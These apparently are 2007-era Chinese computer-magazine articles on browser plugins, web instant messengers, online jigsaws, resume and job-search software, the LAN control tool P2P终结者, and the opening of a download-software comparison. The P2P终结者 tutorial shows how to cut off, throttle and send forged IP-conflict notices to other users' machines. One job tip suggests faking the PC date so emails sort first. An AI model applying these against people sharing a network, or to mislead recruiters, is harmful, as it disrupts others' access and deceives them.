#### 2. 插件的管理

单击“工具”菜单，选择“插件管理”命令，在弹出的对话框下我们可以查看所有插件的作者、类型、安装说明等等。如插件的“配置”按钮可用，我们就可以对插件的功能进行设置，也可以单击“删除”按钮来卸载插件。

附：插件下载链接 http://addons.maxthon.cn/category/Plugins。用户可以自行下载喜欢的插件让傲游更加强大。


聊天一把抓

文 / 柴璟

由于即时通讯工具（IM）具有实时互动、资费低廉等优点，目前已成为使用频率最高的网络软件，网络生活中不可或缺的一部分。无论是在单位或是在家，无论近在咫尺或是远在天边，亲朋好友或同事之间都可以通过即时通讯工具进行文字、语音和视频上的实时交流，非常的方便。而基于 Web 浏览器的即时通讯工具更是将这一特点发挥到了极致，用户无需安装即时通讯工具的客户端，只需一台带浏览器能上网的电脑，即可在 Web 浏览器中获得基础的 IM 服务，具有 Web 产品固有的便利性特点，又保持了用户在客户端软件的一些操作习惯，从而达到沟通无极限的境界。下面，笔者就介绍几款主流即时通讯工具的 Web 版。

### 1. WebQQ

QQ 作为目前国内用户最多的 IM 工具，于去年 9 月份推出了 WebQQ Beta1 版。由于还处于测试阶段，经常会出现登录失败的现象，而且该 Beta 版目前只支持 IE6。

在浏览器中打开 WebQQ 的链接 http://webqq.qq.com，首先会弹出一个提示框，确定后出现 WebQQ 的登录界面。用户只需在登录框内输入 QQ 号码、密码，并且按照验证图片中的字符输入验证码，选择是否“记住密码”和“隐身登录”，点击“登录”按钮即可（如图1）。



### 2. MSN Web Messenger

在浏览器中打开 http://webmessenger.msn.com，如果用户启用了 IE 的弹出窗口阻止程序，或者其他第三方工具栏，例如 MSN Toolbar、Google Toolbar，为能正常使用 MSN Web Messenger，用户必须允许该网站的弹出窗口，否则将出现提示。

在登录状态的下拉菜单中，用户可以设置登录后的状态。点击页面中的“启动 MSN Web Messenger”按钮后出现 MSN Web Messenger 的登录界面，填入邮件地址和密码后，点击“登录”按钮即可。登录后的主界面如图 2 所示。

点击主界面下方的“添加联系人”链接，在弹出的对话框中输入联系人完整的电子邮件地址，点击“确定”按钮后即可添加联系人。

单击主界面上方显示邮件地址的地方，待变成输入状态后，用户可输入个性化的名称和签名。

点击主界面下方的“发送即时信息”链接，在弹出的对话框中选择需要发送即时信息的联系人名称，点击“确定”按钮，或直接在主界面下单击该联系人名称即可开始对话。

对话过程中，用户可以更改字体大小、颜色，以及使用图释来表达自己（如图3）。

与此同时，在联系人列表中还会出现用户当前正在与几位联系人对话的提示。

如果用户想暂时阻止某位联系人，只需点击对话窗口左上角的“阻止”按钮，这时在联系人列表中，该联系人的状态就变为“已阻止”。

而与该联系人的对话窗口也相应变成灰色，无法输入。被阻止的联系人将无法向用户发送消息，也不知道用户何时登录。





- 需要注意的几点：
1. 每条消息中最多可以发送 400 个文本字符。
2. MSN Web Messenger 无法发送离线信息，只能给脱机的联系人发送电子邮件。
3. MSN Web Messenger 正常运行需要 IE 5.0 或更高版本，Netscape 7.1 或更高版本，或者 Mozilla 1.6 或更高版本。

### 3. Google Talk

网络巨头 Google 公司已经不仅仅局限于作搜索引擎这么简单了，GMail、Goolge Eareth、Google Picassa……无不掀起用户的追捧热潮。而于 2005 年 8 月推出的即时通讯工具 Google Talk 更是以系统资源占用小、界面人性化、速度快、与GMail的整合等特点网罗了一批忠实的用户。现在用户只需登录GMail，即可与自己的GTalk好友畅谈，而且还能将聊天记录像电子邮件一样保存在GMail的账户中。

在浏览器中打开http://www.gmail.com登录GMail邮箱后，必须在页面的下方选择“Gmail视图：带有聊天功能的标准视图”，才能在GMail中打开聊天功能。

在页面的左侧有个“快速联系人”框，用户发送电子邮件最频繁的联系人会自动出现在这里。

在“设置在线状态”的下拉菜单中，用户甚至可以自定义在线状态信息。

将鼠标悬停在某个联系人姓名上时会弹出一个对话框。

点击“发出聊天邀请”按钮就会给当前联系人发送一封聊天邀请函，一旦该联系人接收用户的邀请并注册了Gmail邮箱，你们就可以通过GTalk聊天了。

在用户的联系人列表中，可以与用户聊天的联系人姓名旁边会有彩球，绿色表示在线，黄色表示闲置，而红色表示他们正忙。

单击需要会话的联系人名称，会在页面的右下角弹出一个对话框，在此用户可以和联系人进行会话。

Gmail Talk支持发送离线信息，联系人会在下次登录时看到用户发来的离线信息。

点击页面右上方的“设置”链接并切换到“聊天”选项卡，如果用户选中“在我的GMail账户中保存聊天记录”选项，则用户与联系人的会话记录会被保存在页面左侧的“聊天”文件夹中。

利用下拉菜单还可以对聊天记录进行相应的操作。如果用户在“选项”下拉菜单中点击“取消记录”，则当前会话记录将不会被保存在“聊天”文件夹中。

点击“拒绝 笑面虎的备用”，则双方将无法看到对方是否在线，也无法接收到对方的信息。

- 需要注意的几点：
(1) Gmail Talk中的离线信息实际是以电子邮件的形式分别保存在“收件箱”和“聊天”文件夹中的。
(2) Gmail Talk也支持表情图片，但需要用户输入组合键。
(3) Gmail Talk正常运行需要IE 6.0或更高版本、Firefox 1.0或更高版本的浏览器支持。

### 4. ICQ2Go

在浏览器中打开http://go.icq.com，在打开的页面上点击“Launch”按钮就会弹出ICQ2Go的登录界面。填入ICQ号或与之捆绑的E-mail地址和密码后点击“Connect”按钮即可。



登录后ICQ2Go的主界面如图4。

点击页面下方的“设置”按钮可以对ICQ进行一些简单的设置，例如是否播放声音、是否只接收联系人列表中的信息等。

点击“查找联系人”按钮，用户可以通过输入ICQ号码、E-mail地址，或通过详细的资料，例如昵称、年龄、国家等来查找并添加联系人。

在联系人列表中双击需要聊天的好友姓名即可打开聊天窗口开始聊天。

在聊天窗口中点击“Save”按钮会弹出一个对话框，提醒用户需要将当前的聊天记录保存在何处。聊天记录将以文本文件的形式，以当前聊天对象的ICQ号码为名字前缀保存起来。

- 需要注意的几点：
(1) 如果用户名为中文，则无论在ICQ2Go主界面，还是在聊天窗口都无法正常显示。
(2) ICQ2Go虽然也支持离线信息，但对方登录后只能看到英文的信息，中文的信息则无法显示。
(3) 以上介绍的版本基于Flash技术，所以需要Flash Player 7或更高版本，浏览器需要IE 5.5或更高版本、Netscape 7或更高版本、Mozilla 1.0或更高版本的支持。另外ICQ2Go还有一款基于Java VM技术的Web版本，点击http://go.icq.com页面中的“ICQ2Go!Java“链接即可。该版本需要Java VM Build 5.0.3167或更高。

### 5. 雅虎通网页版

在浏览器中打开http://cn.messenger.yahoo.com/webmsgr，点击“立即聊天”按钮，如果用户之前未登录雅虎服务，就会弹出一个登录对话框，要求用户输入雅虎ID和密码。登录后就可以聊天了（如图5）。



点击“添加好友”按钮，在弹出的对话框中输入对方的雅虎ID和你的邀请，点击“确定”即可添加好友。

点击“查看好友”即可打开联系人列表。用户可以和多个联系人同时进行会话，每个会话以选项卡的形式出现在聊天窗口中。点击联系人聊天窗口中的“联系信息”按钮，在弹出的对话框中用户可以自定义该联系人的姓名、昵称等一些基本信息，以方便用户记忆和识别多个不同的联系人。当用户有很多联系人时，该功能非常有用。雅虎通网页版支持离线信息，而且对中文的支持非常好。

雅虎通网页版需要IE 5.5以上版本或FireFox浏览器，以及Flash 7.0或以上版本的支持。

寻找失去的童趣——网络玩拼图

文 / TMG zsm

你是否怀念童年时的那段时光，你是否想起孩提时代因为完成一次拼图而无比自豪。今天，我们已步入成年人的行列中，你一定想再次体验那段难忘的岁月，一定想找回已经失去的童趣。网络玩拼图将带着你分享那份愉悦！

## 一、上传图片——选择你所喜欢的图片

打开IE浏览器，在浏览器地址栏中输入http://photo.wangyou.com，即可打开“网友相册”主页，单击“拼图”链接，进入“在线拼图”主页面进行图片上传如图1所示。



单击页面上“浏览”按钮，选择你所需要上传的图像文件，单击“打开”按钮，然后单击“下一步”按钮上传图片如图2所示。



小提示：所传图片必须为JPG格式，且图片大小控制在150K以内，同时，为保证拼图质量，请尽量选择尺寸为250*200以上的图片进行拼图游戏。

## 二、制作拼图——游戏准备好了吗？

图片上传完毕后，在“制作拼图”页面上显示你所上传的图片。图片下方四个“图片切割”选项中有四种图片规格，分别是12块、25块、42块、56块（系统默认为25块），需要指出的是，分割的数量越多，拼图的难度越大。用户可根据实际选择适合的规格，最后，单击“开始拼图”按钮，进行拼图游戏如图3所示。



## 三、在线拼图——真正体验童趣

在“在线拼图”页面上，可看到已经被分割的图块，移动鼠标至任意图块，鼠标指针改变。利用鼠标拖动已被分割的图块进行重新组合、排列。同时，如果中途你忘记原始完整图片，即可单击页面左上角“原图”按钮来查看原图。倘若你以完成本次拼图，或者想重新选择一张图片，选择页面右下角“重新开始”按钮，即可回到“制作拼图”页面，重新选择你所需要的图片如图4所示。



此外，若一个人在线拼图无聊，你可复制拼图页面网址以E-Mail形式发给朋友们，邀请他们一起参加在线拼图游戏，一起体验在线拼图游戏所带来的乐趣，一起找寻失去了的童趣！

## “软件”出网络 成功求职完全攻略

文 / 彭文波

现在，一年一度的求职高峰已经来临，“找工作”又开始成为学生群体和跳槽一族的热门词汇。很多人抱怨在网上找不到工作，天天投简历但结果却不尽人意，不知道什么时候会有转机。其实，网络信息浩瀚无边，有些单位发布的招聘信息也不一定是为了招聘；广告宣传成分占了很大比重。单纯通过简单的网络搜索去求职，是很难起到比较好的效果的。下面，我们以典型的求职流程为例，根据“写简历——搜索求职信息——面试”等步骤进行划分，并在每个部分精选了几款优秀的求职软件，帮助用户精确锁定目标，从而找到满意的工作。

## 一、“面子”工程：简历软件助你展示完美自我

找工作，是竞争什么？最开始竞争的是简历！因为求职者到任何一个招聘单位要做的第一件事情就是要投递简历，而简历就是那些单位了解求职者的第一个窗口。一份好的简历，可以在众多求职简历中脱颖而出，给招聘人员留下深刻的印象，然后决定给你面试通知。那么，什么样的简历才是吸引人的简历？平时写简历的时候，求职者为了写一篇好的简历，费尽心力，当下次工作有变动或者想更换简历的风格的时候，发现自己的简历又得重新改写。那么，如何能快速的写完一篇好的简历，并且在以后也能重新进行个性化定制呢？通过下面的优秀简历软件，可以帮助求职者展示最真实完美的自我。

### 1. 绝世好简历 V2007
软件下载地址：http://www.bestresume.net/cn/

“绝世好简历”使用十分方便，用户只要根据软件向导提示一步步填写，无须自己亲自去考虑简历的风格，就可以自动生成一篇简历。当工作变动或要改变简历风格时，我们所要做的就是将保存好的简历调出来，对简历某些地方适当添加、删除或修改。软件界面如图1所示。

制作简历时，首先选择一种简历风格，点下方的按钮，跟着简历向导提示完成简历。填写完毕，点“效果预览”按钮，即可查看简历生成效果。在弹出的界面中，单击“简历”按钮，在弹出的菜单中，可以选择相应的风格，如图2所示。

- 邮件特快专递功能
有时候用户可能会遇到这种情况：需要立刻把简历快速地发送到用人单位的手中，但是使用普通的电子邮件发送方式，不能保证简历被立刻送到用人单位邮箱。“绝世好简历”提供了邮件特快专递功能，它能够找到收件人邮箱所在的服务器，直接把简历送到对方的邮件服务器中。

小技巧：邮件特快专递功能需要调用域名服务器(DNS)查询收件人邮箱对应的IP地址，所以必须在系统中填写域名服务器地址。用户可以通过“求职”菜单下的“邮件设置”，在弹出的对话框中选择“邮件特快专递”，填写域名服务器IP地址。

- 简历群发功能
在网上求职经常需要给很多用人单位发简历，而以往软件的简历发送方式一次只能发送出一封简历，这样既不方便，也使求职人员浪费了很多宝贵的求职机会。通过软件的简历群发功能，求职人员可将注意力集中到找寻需要的职位上，然后将满意的职位添加到邮件列表一起发送出去，对于每封邮件还可定义各自独特的邮件主题，并可对每封简历加上备注，方便记忆。“知名企业”邮件列表能够方便求职者将简历发送到理想的企业。

- 网上求职
“绝世好简历”内置了多个著名的求职站点搜索引擎。打开“求职”菜单下的“网上求职”选项，软件将切换到职位搜索页面，用户可根据职位发布日期及职位名称，搜索需要的职位。

小技巧：制作个性化简历时，如果有些项目不需要，可以不用显示出来。另外，软件还支持双语功能，通过“双语菜单”切换，可以轻松制作英文简历。

### 2. 轻轻松松写简历 V2007.3 校园版
软件下载地址：http://www.renyuansoft.com/

《轻轻松松写简历校园版》专为毕业生设计，软件最大的特色在于：内置了数百个精美样式中文简历、英文简历、中文求职信、英文求职信和简历封面模板，用户只需填写好个人资料，即可根据模板自动生成各种风格、不同样式的个人简历。软件操作简单，上手容易，可制作、保存多份简历，修改、编辑等操作与Office Word完全兼容，生成Word文档可在任意一家文印店打印。另外，注册用户还可在线更新下载新模板，从而快速设计出规范精美的个人简历！软件界面如图3所示。

在向导窗口中，双击想要编辑的模板可以进入编辑状态，编辑完成后可以保存模板。值得一提的是，软件提供了丰富的参考资料。单击软件界面中的“帮助文档”按钮，可以打开帮助文档。其中包括常用英文词汇、人才网站、劳动法规等，单击每个小分类可以看到更加详细的求职参考信息，如图4所示。

### 3. 简历电邮版 V2.2
软件下载地址：http://www.easyresume.net/

《简历电邮版》内置各种HTML格式简历模板，借助它可以轻松地撰写出一篇高质量的个人简历。软件支持直接模板编辑，支持自定义模板，支持图片插入，可以让简历更加与众不同。软件界面如图5所示。

求职找工作，一个个注册人才网站，既麻烦速度又慢，《简历速填》专为解决您这一烦恼而开发，只需事先在软件中填写好个人资料，一个鼠标点击就可以在网站上自动完成填写个人简历，是您求职找工作的实用工具，支持国内大部分人才网站。软件体积小巧，下载安装十分方便。另外，升级后的软件支持简历信息以XML文件导入/导出，以便与其他简历软件共享，并支持国内大部分人才网站，如图6所示。

### 4. 简历速填 V1.1
软件下载地址：http://www.cv800.com

## 二、大海捞针：职位搜索软件助你一臂之力

等待工作机会的过程是漫长的，等待的时间越长，求职成功的希望越小。正确的思路应该是努力去争取。通过职位搜索软件，可以缩小搜索范围，迅速找到自己所心仪的单位。

### 1. 瞬速网络求职助手 V2.11
软件下载地址：http://www2.skycn.com/soft/25669.html

《瞬速网络求职助手》是可以自动从各大招聘求职网站上采集最新职位信息的软件，通过软件中的设定还可以帮助用户快速投递简历。收到面试通知时，可以快速显示公司所招聘职位的要求，从而有重点地准备面试。此外，软件还提供了自动采集最新职位功能。界面如图7所示。

- 添加职位采集
用户可以根据需要在软件中随时增加新的职位采集要求。添加新的职位采集时，要求用户选择需要采集职位所在的地区和职位所属的行业。如果数据库中已有相同的采集查询要求，软件将会提示用户，从而免受一些相同的职位记录干扰。

- 浏览职位记录并发送简历
在职位记录列表上浏览职位记录，发现任何一条符合要求的记录时，都可以通过点击鼠标右键，在弹出的菜单中选择“发送简历”。在弹出的对话框中，软件会自动根据职位记录所在的栏目设定和招聘单位的要求生成一份简历。用户只需对邮件进行简单的修改与编辑。点击“发送”后，邮件将进入后台发送。不管发送成功与失败，软件都会在最短的时间内通知您发送结果。发送完成后，软件会自动将该职位记录转储到“已发送简历”的栏目，如图8所示。

小技巧：在发送邮件前，需要设置发送邮件的SMTP服务器选项。在主界面中，单击“应用选项”。

### 2. 求职助手(Job Assistant) V0.7.0.3
软件下载地址：http://www.xleach.com/

本软件主要是以帮助用户进行求职为设计方向。在程序中，通过各方面的功能，尽可能地为用户缩短求职所花费的时间，如图9所示。

程序中主要分为以下几大功能模块：

- 职位搜索
通过将几大求职网站的搜索统一，实现在一个界面上同时对多个求职网站进行搜索，并对搜索列表有一定的管理功能。

- 浏览辅助
用户在程序中，对职位进行浏览的同时，实现职位相关信息的自动截取，用户只需要按一下鼠标，就可以把当前的职位信息记录到程序的数据库中。

- 简历编写向导
通过编写向导，用户可以快速编写出漂亮而且实用的简历文档。

- 简历发送向导
在信息记录和简历编写的基础上，可以快速地把简历发送到各个求职单位中。

需要注意的是，与网页搜索相比，软件搜索的效率目前还比较低，实际应用中，可以采用网页搜索与软件搜索相配合的方式。

小技巧：使用网站或求职软件找工作之前，建议通过如下渠道先了解信息。

- 通过内部员工介绍，由于熟人关系，因此求职成功率很大。
- 通过猎头和职业顾问机构去推荐，职业顾问手上有很多企业HR的关系，即使不是中高级人才，也可以通过职业顾问去推荐，他们更了解企业情况也了解个人情况，能提供比较科学的信息，避免盲目跳槽找工作。
- 明确自己的职业定位和对行业及对企业的了解，有自信心感觉自己是企业最合适的人选，主动电话和登门拜访，以真心诚意感动用人单位。
- 多种途径收集单位的资料，了解单位主要发展的业务，尽量将简历中的工作经验写得丰富生动。
- 选择当地的人才网站投简历。

## 三、如虎添翼：巧用网络助你求职成功

除了使用软件制作精美大方、格式通用的简历外，在网络求职的过程中，还要学习一些网络求职的技巧，随时关注自己目标单位的招聘信息，以提高求职成功率。

### 1. 搜集招聘信息的渠道

在网上搜索招聘信息时，可以考虑以下主要渠道：

- 校园BBS
对于即将毕业的大学生来说，校园BBS也可以成为收集招聘信息的一个重要工具。目前大部分高校的BBS都设有招聘专区，相对于其它网站信息而言，校园网站BBS上的信息相对更加真实，可信度较高。

- 专业招聘网站
在专业招聘网站上发布招聘广告，是企业招聘的主要渠道，既方便他们收集和筛选简历，又利于他们丰富自己的人才库。通过专业招聘网站，还可以宣传企业知名度，免费参加网上招聘会等。

- 大型综合网站
许多大型综合网站和行业网站也设有人才频道，求职者在浏览这些网站时不妨多留意里面的招聘信息。

- 企业网站
一般来说，知名企业的网站招聘专区中，会常年公布一些岗位需求信息，对岗位职责，以及对求职者的要求都描述得比较详尽。

- 通过搜索引擎
如果对某个公司的招聘职位感兴趣，可以通过“Google”、“百度”查询该公司的相关招聘信息，了解工作环境、待遇等。

### 2. 网络求职的技巧

通过网络投递简历时，注意如下技巧：

- 在简历中，尽量与行业知名单位有联系。人事经理搜索人才时，一般会以关键字“知名企业名称+职位名称”，系统会自动搜索到简历中出现关键字的求职者，这样可以提高人事经理浏览简历的机会！
- 刷新简历。当人事经理搜索人才时，符合条件的简历是按刷新的时间顺序排列，而一般只会看前面一两页。因此，求职者登陆后，最好刷新简历，使简历尽量排在前面。
- 让邮件和电话号码的位置比较显眼。发邮件到企业指定的邮箱时，把电脑系统的日期改为一个将来的日期，如2008年，因为大多邮箱都是默认把邮件按日期排序，所以你的邮件起码要到2008年以后才会被排在后面！
- 邮件标题尽量吸引注意力。人事经理每天收到大量的求职电子邮件，求职者一般会按企业要求把邮件题目写成：应聘xx职位，这样关注度比较低。因此，可以在邮件题目上做文章，只有标题新颖的才有更多的机会。
- 在不泄露个人隐私的情况下，尽量选择公开个人简历。一般的专业网站都提供了类似的设置。

### 3. 参考求职网站

| 网站名称 | 网站地址 |
| :--- | :--- |
| 中华英才网 | http://www.chinahr.com |
| 51job前程无忧 | http://www.51job.com |
| 中国人才热线 | http://www.cjol.com |
| 智联招聘网 | http://www.zhaopin.com |
| jobcn卓博 | http://www.jobcn.com |
| 人事部人才公众信息网 | http://www.chrm.gov.cn |
| 兼职招聘网 | http://www.jianzhi.com |
| 中国外语人才网 | http://www.jobeast.com |
| 中国教师人才网 | http://www.jiaoshi.com.cn |
| 中国IT人才网 | http://www.ittalent.com.cn |
| 招聘联盟 | http://www.job10000.com |
| 中国研究生人才网 | http://www.91student.com |
| 中华人才网 | http://www.960hr.com |

总的来看，无论是使用软件还是使用网络，最终的目的是为了能够成功找到一份满意的工作。不过，相对直接去人才市场而言，网络求职的成功率还比较低。曾经有人这么测试过，现在网络求职的成功率一般是发200份简历，有8份面试，2份成功，一个是你不想去的，另外一个可能就是你相对满意的。所以，通过软件和网络求职的朋友千万不要对自己失去信心。也许，你坚持看到最后那一条信息的时候，就是成功找到工作的时候！

## 给P2P下个禁令——P2P终结者

文/kingjames kktode

有朋友问我：我跟同屋组建了局域网共享ADSL宽带上網，但是他老是用BT下载影片，搞得我这边网速跟蜗牛爬一样慢，连网页都无法正常浏览了，有没有办法对他进行控制呢？确实，这种情况不仅大量存在于小型局域网中，也广泛存在于企业网络中。P2P技术的迅猛发展给我们带来很大的好处，能找到更加丰富的网络资源，下载速度也更快。但P2P技术广泛使用的同时，也给公司网管带来了很大的挑战。在一个局域网中如果有几个用户在使用P2P软件，将会使有限的带宽消耗殆尽，其他用户的上网速度会变得异常缓慢。如何有效控制局域网用户使用P2P软件呢？使用本文介绍的“P2P终结者”吧！

P2P终结者目前可以控制绝大部分流行的P2P软件下载，它可以对目前主流的P2P软件使用协议进行灵活地控制，包括：BitComet、比特精灵、贪婪BT、迅雷、Emule、kugoo、百度下吧、Poco、PP点点通等软件。

目前对P2P下载进行控制的方法，一般是通过在防火墙或者代理服务器进行繁杂的规则设定来完成，这样的操作是一般电脑基础较为薄弱的用户无法掌握的，就算是网络管理人员也会觉得很麻烦。而P2P终结者可以实现对局域网全网主机的P2P下载控制，只需要一机安装，就可以控制全网，非常易于部署，可保证家用和企业网络有限的带宽得到正当利用。

### 1. 软件的安装和注册

P2P终结者分为企业版和家庭版，用户可根据需求选择。两个版本的操作基本相同。本文是在P2P终结者2.08企业版基础上撰写的。

运行P2P终结者的安装程序，如图1所示，根据网络环境的不同，有以下两种安装模式：

- 本地网络通过ADSL+路由器共享上网
这种网络环境下只需把软件安装在局域网络中任意一台普通PC机上即可，并把“接入公网类型”设置为“ADSL路由器共享上网”，“请你选择网络连接设备类型”则选择为“交换机（Switch）”。

- 本地网络通过代理服务器(Proxy Server)上网
这种网络环境下需要把软件安装在代理服务器上，并把“接入公网类型”设置为“代理服务器上网”，根据网络的实际情况，将“请你选择网络连接设备类型”选择为“交换机（Switch）”或“集线器（Hub）”即可。

以上选项如果设置错了也没关系，以后还可以进行更改。最后根据实际情况选择“公网接入带宽”并单击“完成设置”按钮。

此时系统提示：软件已经完成配置，稍后请选择好物理网卡就可以控制P2P流量了！单击“确定”按钮即可。

此后P2P终结者将会自动运行。试用版只能使用七天，要注册软件的话，单击“软件版本管理”面板下的“软件注册”即可进行注册操作。注册完成后需要重启P2P终结者。

### 2. 软件的配置和使用

下面进行P2P终结者的配置。在“软件配置”面板中的“网卡设置”选项卡中选择监测使用的物理网卡，如果有双网卡，请选择内网网卡。此时将会显示检测使用网卡的IP地址、MAC地址、网关地址、网关MAC地址等信息，设置完成后单击“保存配置”保存数据（见图2）。

如图3所示，单击“系统设置”选项卡，建议选中相关自动运行、控制的选项，包括“电脑启动时自动运行”、“软件运行即转为控制状态”、“发现新主机时自动对其进行控制”选项，并单击“保存配置”按钮。这样当电脑一开机即可对局域网内的P2P下载进行控制，并且能够顺利地监控每一台接入网络的电脑，防止漏网之鱼。

在“运行环境设置”选项卡中，可以对前面安装P2P终结者时所作的网络环境设置（如图1所示）进行更改。注意，没有必要的话，不要轻易更改“运行环境设置”中的选项，因为初始化向导已经根据你所提供的网络信息自动进行了最佳设置。另外，如果更改了该选项，那么需要重新启动“启动网络控制服务”来使刚刚更改的参数生效。

接着，单击“网络控制台”面板下的“启动网络控制服务”按钮，就可以启动网络控制，可以在下面的“网络控制信息实时输出列表”中看到局域网内哪些电脑正在进行下载。

如果用户选择“运行监视模式……”的话，那么只能对网络流量进行监视而不是拦截（见图4）。

单击“网络主机扫描”面板下的“刷新网络”按钮，对当前接入局域网内的所有主机进行扫描，可以看到已经联网的所有主机和它们当前占用公网的上/下行带宽。你可以单击“控制全部主机”来对所有网络电脑进行带宽及断开网络的限制。

如果此时你发现某台主机正在疯狂地进行BT下载，占用了公网太多的上/下行带宽，这时可以稍微惩罚它一下：如图5所示，在这台主机上单击鼠标右键，选择“断开选中主机公网连接”菜单下的命令，可以选择断开一段时间，也可以选择永远断开。

我们还可以单独设定某台主机的上/下行带宽，对其进行单独控制。如图5所示，在这台主机上单击右键，选择“设置选中主机公网带宽限制”，设置其最大上行和下行带宽（见图6），然后单击“应用控制设置”按钮，但你会发现这时候设置并未生效，因为还要进行如下的设置：单击“网络带宽管理”面板，选中右边的“启用主机公网带宽限制”（见图7），然后单击“保存设置”按钮。此时前面对某台主机所作的带宽限制就会立即生效了。

作为企业网络管理员，对局域网内的主机逐一进行带宽限制设定未免太麻烦了。如图7所示，可以在“启用主机公网带宽限制”下，设定每一台主机的上/下行最大带宽。选中“启用发现P2P下载时自动限制该主机带宽功能”，设定每一台主机在使用P2P下载时的上行和下行最大带宽。例如，我们只需要将进行P2P下载的主机上/下行带宽设置为<5K，那么使用P2P软件的人就再也不会出现“占满带宽”的情形了，不再影响其他主机正常上网。

注意：对某台主机进行单独带宽设置后，它不再受“网络带宽管理”中所作统一设定的影响。

到这里读者一定已经发现了，对局域网内主机的网络管理，都是基于IP地址的。如果某台主机私自修改了IP地址，那么对它做的设定就会失效，这该怎么办呢？

单击“网络安全管理”面板下的“IP-MAC绑定”选项，选中“启用IP-MAC地址绑定”，单击“获取IP-MAC关系”按钮，将会获取局域网内联网的所有主机的IP和MAC地址并将它们绑定。再选中下方的“发现非法IP-MAC绑定时，断开该主机公网连接”和“发现非法IP-MAC绑定时，发送IP冲突给该主机”两个选项，最后别忘了单击“保存配置”按钮，如图8所示。此后，局域网内的主机就不能擅自更改IP地址了，否则将受到断网的惩罚！在P2P终结者的管理下，容不得一条漏网之鱼！

### 3. 其他网络控制功能

前面主要讲解了如何使用P2P终结者对P2P下载和网络中的主机带宽进行控制。其实P2P终结者的功能还不止如此，它还能随心所欲地禁止浏览网页、使用QQ、MSN Messenger（现改名为Windows Messenger）等，是网管员的好助手，下面让我们来更近一步，看看这些功能的使用方法。

单击“网络应用管理”面板，可以看到P2P终结者具有如下网络控制功能：

- 控制下载：包括HTTP下载、FTP下载和BT下载，如图9所示。
- 控制WWW：包括指定禁止或允许网址列表，配合软件内置的反动色情库，可以实现网络Web访问安全管理。假如上班时间要禁止员工浏览网页，单击“控制WWW”，勾选“启用WWW访问控制”项，再选择“禁止访问WWW”命令并单击“保存配置”按钮即可，如图10所示。
- 控制聊天：让QQ和Windows Messenger聊天族、POPO短信族等彻底闭嘴。例如上班时间要禁止员工使用QQ聊天，可以单击“控制聊天”，勾选“启用聊天控制”项，再选择“禁止QQ聊天”，最后单击“保存配置”按钮就OK了，如图11所示。
- 控制自定义报文：如果要禁止员工玩联网游戏，则需要用ACL规则来加以控制，如图12所示，对IP为192.168.0.8的电脑屏蔽了“6112~6666”端口。魔兽争霸的联网端口是6112，一旦屏蔽此端口，这台电脑就再也别想用这个端口来与外界联网玩魔兽争霸了。

另外，P2P终结者还是内部局域网的好保安呢，我们可以用它来抓住公司内部企图靠侦听网络报文来偷窃他人隐私者呢！在“网络实用工具”中为我们网管准备了“局域网Sniffer检测工具”，使用它可以轻松查出局域网内的信息窃贼。

使用P2P终结者后，你会惊喜地发现，大家的上网速度又快了起来，一切就是这么简单！不过要提醒读者一下，P2P终结者是用来进行网络管理的，不要用它来干坏事哦。

## 寻找新版“王者” 网络下载加速软件的

文/彭文波

进入2007年后，下载软件领域新闻不断！可谓“十八路诸侯来会盟”。首先是国内著名下载网站华军联合天空软件封杀迅雷，转而推荐FlashGet；接着老牌下载软件纷纷“变脸”，FlashGet借机更名“快车”，新功能层出不穷。同时，在下载大军里，新对手不断涌现，甚至连鼎鼎大名的腾讯公司也推出了“超级旋风”，大有后来居上之势！各路诸侯所使用的兵器和战术各不相同，也就是说它们所使用的下载模式和下载技术不尽相同。那么，施展十八般武艺后，到底谁才是下载领域的盟主呢？本专题精选多款下载软件，并对其下载技术进行详细的分析，通过界面、插件、下载速度、下载技术以及资源支持等多方面的对比，找到下载加速软件的“王者”！

## 一、追根溯源：下载技术基础知识

好比品三国之典故，凡事来个追根溯源，我们首先来分析一下下载技术的流行模式。经历了从最原始的IE浏览器下载，到后来的下载工具，下载模式不断发展，下载速度也越来越快。现在网上有多种下载工具，他们使用的下载原理不同，使用起来效果也各不相同。

### 1.流行的下载模式

现在网上流行的下载方式主要有WEB、BT、P2SP三种下载方式。

- （1）Web 模式

Web下载方式分为HTTP与FTP两种类型，它们分别是Hyper Text Transportation Protocol(超文本传输协议)与File Transportation Protocol(文件传输协议)的缩写，它们是计算机之间交换数据的方式，也是两种最经典的下载方式，该下载方式原理非常简单，就是用户用两种规则（协议）和提供文件的服务器取得联系并将文件搬到自己的计算机中来，从而实现下载的功能。其代表软件有FlashGet（网际快车，现更名为“快车”）等，其下载原理如图1所示。

- （2）BT 模式

BT下载实际上就是P2P下载，该种下载方式与WEB方式正好相反，该种模式不需要服务器，而是在用户机与用户机之间进行传播，也可以说每台用户机都是服务器，讲究“人人平等”的下载模式，每台用户机在自己下载其它用户机上文件的同时，还提供被其它用户机下载的服务，所以使用该种下载方式的用户越多，其下载速度就会越快。其代表软件有BitComet，其下载原理如图2所示。

- （3）P2SP 模式

P2SP下载方式实际上是对P2P技术的进一步延伸，它不但支持P2P技术，同时还通过多媒体检索数据库这个桥梁把原本孤立的服务器资源和P2P资源整合到了一起，这样下载速度更快，同时下载资源更丰富，下载稳定性更强。

### 2.下载模式与下载速度、下载资源

下载速度的快慢与下载资源也有很大的关系，三种下载模式中其下载资源哪一个更丰富一些呢？

- （1）WEB 下载方式是通过下载服务器进行下载，其下载资源必须由专人上传到服务器后，方可进行下载，受到下载服务器的限制，其资源是有限的。FlashGet等工具软件支持多线程下载，但由于其下载资源来自单一服务器，当下载人数比较多时，其下载速度就会变得非常慢，不过目前下载的主流还是以WEB方式为主。
- （2）BT下载是通过种子的方式进行传播，如果有人想把文件提供下载，只要通过软件把文件制作成种子而且发布到页面上就可以了，种子体积非常小，便于发布。种子发布后，只要有一个人提供共享，那么其它人就可以通过BT软件进行下载。BT下载的人数越多，其下载速度就会越快，从而让我们实现飞速下载。我们也注意到，新版本的FlashGet软件也开始支持BT下载。
- （3）P2SP下载可以把所有的P2P共享资源与各下载服务器进行整合，所以其下载资源远远大于WEB方式，因此下载资源非常丰富。这样，就可以把多个服务器端的文件整合到一起，实现同时从多个服务器端下载文件，这样就能有效地使用其它服务器。不过，目前涉及到很多利益分配的问题，比如下载站点愿意白白提供这些服务吗？通过上面的分析，不难理解为什么天空、华军要封杀迅雷下载了吧。

了解了下载圈里的是是非非，我们言归正传，因为所有的争议都是为了更好的服务用户。对服务商来说，只是一个利益分配的问题。

### 3. 测试指标及测试对象选择

评价软件之前，首先需要有一定的标准。综合常见的软件测试报告，我们选择了以下指标：

- (1) 安装及界面，包括是否为绿色软件；
- (2) 系统资源占用；
- (3) 下载速度测试；
